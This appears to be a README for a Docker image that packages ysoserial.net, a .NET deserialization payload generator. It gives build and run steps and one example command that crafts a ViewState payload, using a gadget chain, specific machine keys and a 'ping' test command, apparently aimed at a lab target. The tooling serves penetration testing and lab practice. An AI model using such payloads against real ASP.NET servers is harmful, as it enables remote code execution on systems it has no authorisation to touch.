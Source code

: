 ## Docker image for ysoserial.net

### Usage

- Build the image
```bash
docker build -t ysoserial.net .
```

- Run the image
```bash
docker run -dit --name ysoserial ysoserial.net
```

- You can also use the ysoserial_runner.sh script to interact with ysoserial.net
```bash
alias ysoserial='/opt/scripts/ysoserial_runner.sh '

ysoserial run '-p ViewState  -g TextFormattingRunProperties -c "ping 10.10.14.95" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"'
```

#### Example

![alt text](images/image.png)

#### Note:
- The image is about 5GB so it will take some time to build and make sure you have enough space on your machine.
 
![alt text](images/image-1.png)
